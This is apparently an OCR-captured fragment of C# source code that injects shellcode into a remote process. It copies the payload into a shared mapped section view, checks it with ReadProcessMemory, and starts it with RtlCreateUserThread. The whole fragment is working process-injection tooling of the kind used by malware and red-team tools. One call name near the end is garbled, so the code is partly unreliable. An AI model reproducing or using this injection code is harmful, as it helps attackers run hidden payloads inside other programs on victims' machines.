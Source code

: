             // Copy the shellcode into the locally mapped view which will be reflected on the remotely mapped view
            Marshal.Copy(buf, 0, baseAddressL, bufLength);

            // BEGIN DEBUG (check if the shellcode was copied correctly)
            byte[] remoteMemory = new byte[bufLength];
            IntPtr bytesRead = new IntPtr();
            ReadProcessMemory(hRemoteProcess, baseAddressR, remoteMemory, remoteMemory.Length, out bytesRead);
            if (!CompareByteArray(buf, remoteMemory))
            {
                Console.WriteLine("[-] DEBUG: Shellcode bytes read from remotely mapped view do not match with local buf");
                return;
            }
            // END DEBUG

            // Execute the shellcode in a remote thread (also can be done with CreateRemoteThread)
            //CreateRemoteThread(hRemoteProcess, IntPtr.Zero, 0, baseAddressR, IntPtr.Zero, 0, IntPtr.Zero)
            IntPtr threadHandle = new IntPtr();
            if (RtlCreateUserThread(hRemoteProcess, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, baseAddressR, IntPtr.Zero, ref threadHandle, IntPtr.Zero) != IntPtr.Zero)
            {
                Console.WriteLine("[-] Failed to create a remote thread");
                return;
            }

            Console.WriteLine($"[+] Successfully injected shellcode into remote process ({processId})");

            // Clean up
            NtUnmaPView_%hName%OfSection(hLocalProcess, baseAddressL);
            NtClose(hSection);
        }
    }
